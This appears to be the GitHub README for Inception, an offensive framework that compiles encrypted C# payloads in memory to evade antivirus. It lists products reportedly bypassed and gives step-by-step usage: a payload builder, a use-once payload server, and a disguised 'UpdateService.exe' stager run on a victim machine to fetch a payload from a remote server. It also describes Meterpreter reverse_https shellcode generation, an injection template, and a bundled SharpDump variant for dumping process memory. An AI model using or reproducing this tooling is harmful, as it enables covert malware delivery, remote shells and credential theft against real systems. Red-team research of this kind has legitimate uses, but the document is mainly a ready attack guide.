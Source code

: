# Inception Framework

Inception provides In-memory compilation and reflective loading of C# apps for AV evasion. Payloads are AES encrypted before transmission and are decrypted in memory. The payload server ensures that payloads can only be fetched a pre-determined number of times. Once decrypted, Roslyn is used to build the C# payload in memory, which is then executed using reflection.

Inception has been successful in bypassing a number of AV products. These tests were conducted on a fully patched, 64-bit Windows 10 host using Metasploit Meterpreter shellcode.

| Product        | Bypass Type           |
| ------------- |:-------------:|
| Cylance     | 32-bit shellcode injection | 
| McAfee Endpoint  Adaptive Threat Protection      | 64-bit shellcode injection | 
| Sophos Intercept X     | 64-bit shellcode injection | 
| Symantec Endpoint 14      | 64-bit shellcode injection | 
| ESET Internet Security     | 64-bit shellcode injection | 


[@two06](https://twitter.com/two06) is the primary author of this project.

Inception is released under the MIT license. A derivative of the [SharpDump](https://github.com/GhostPack/SharpDump/)  project  is included with Inception, its licence file can be found in the SharpDump.licence file.

## Requirements

Flask (pip install Flask)
Colorama (pip install Colorama)

## Overview

Inception is comprised of three main components:

- The payload builder (inception.py)
- A payload server (server.py)
- The "stager", a .NET executable which must be launched on the victim machine. 

Payloads are built using Inception.py. Currently, two types of payload are supported:

- Shellcode
- Custom

These payload types are described in more detail below. Inception.py will guide you through the payload creation process, depending on which menu options are selected. 

Payloads are served using a Flask app (server.py). This app either serves the encrypted, pre-generated payload, or issues a redirect to a specified URL. Payloads are, by default, use-once. If an attempt to retrieve a payload which has already been used is made, the server will issue a redirect. If a non-existent payload is requested, the server will issue a redirect. 

The stager is a .NET application which fetches, decodes, compiles and executes the payload. This application must be run on the victim machine. The stager is large (~10MB) when built. 

### Usage

Generate payloads using Inception.py

```
python Inception.py                                                                                                   
 _____ _   _ _____  ___________ _____ _____ _____ _   _ 
|_   _| \ | /  __ \|  ___| ___ \_   _|_   _|  _  | \ | |
  | | |  \| | /  \/| |__ | |_/ / | |   | | | | | |  \| |
  | | | . ` | |    |  __||  __/  | |   | | | | | | . ` |
 _| |_| |\  | \__/\| |___| |     | |  _| |_\ \_/ / |\  |
 \___/\_| \_/\____/\____/\_|     \_/  \___/ \___/\_| \_/

'You mean, a dream within a dream?'

[*] Initial setup complete!
Select payload type:
1. Shellcode
2. Custom
3. Help
0. Quit
 >>  1

```
when firt run, Inception will generate a directory structure in ~/.inception/ containing the payload database, raw payload directory and encrypted payload directory. 

To serve payloads, run Server.py as root (Server.py listens on port 80).

```
sudo python Server.py
 * Serving Flask app "Server" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
```
Build the "RoslynLoad" .NET project, using visual studio. For 64-bit targets, the compiler MUST target x64. "Any CPU" can be used for 32-bit. 

Copy the generated EXE file to the victim machine and execute. 

```
UpdateService.exe "http://payload.server.URL/<ENCRYPTION KEY>"
```
The encryption key is displayed once a payload is generated using Inception.py

Note that a Metasploit listener must be running to receive the connect-back shell.

### Shellcode Payloads
Shellcode payloads use msfvenom to generate x86 or x64 Meterpreter shellcode. In this version, only reverse_https payloads are supported. 

x86 payloads use x86/shijata_ga_nai encoding. 
x64 payloads use x64/xor encoding. 

Generated shellcode is injected into a specified template file. Two examples have been included with this release:

- /Templates/Shellcode/ShellCode_Inject.txt
- /Templates/shellcode/ShellCode_Inject_76.txt

Template files contain a tag, which indicates where the generated shellcode should be placed:

```
byte[] shellcode = new byte[] {
     <SHELLCODE>
};

```

### Custom Payloads

Custom payloads allow arbitrary C# programs to be encrypted and loaded on the victim machine. No payload generation occurs for these templates; they must be complete C# programs. 

A modified version of [SharpDump](https://github.com/GhostPack/SharpDump) has been included with this release. 


### Creating Payloads

New payloads can be created using the following template. For Shellcode payloads, the SHELLCODE tag may be used to indicate where to place the generated shellcode.

```
Using System;
Using <other libraries>

namespace Inception
{
	class Program
	{
		//other methods as required
		
		public static void Run()
		{
			//Entrypoint code here
		}
	}
}
```
If non-standard libraries are required, the appropriate reference must be added to the Roslyn compilation code. The following examples shows the "System.IO.Compression.GZStream" reference (used by SharpDump).

```
MetadataReference[] references = new MetadataReference[]
            {
                MetadataReference.CreateFromFile(typeof(object).Assembly.Location),
                MetadataReference.CreateFromFile(typeof(Enumerable).Assembly.Location),
                MetadataReference.CreateFromFile(typeof(System.IO.Compression.GZipStream).Assembly.Location)
            };
```

## Acknowledgments

Lots of this code was modified from StackOverflow and various blog posts. If you see code that you wrote, which is not credited, please let me know and I'll be happy to add acknowledgements. 

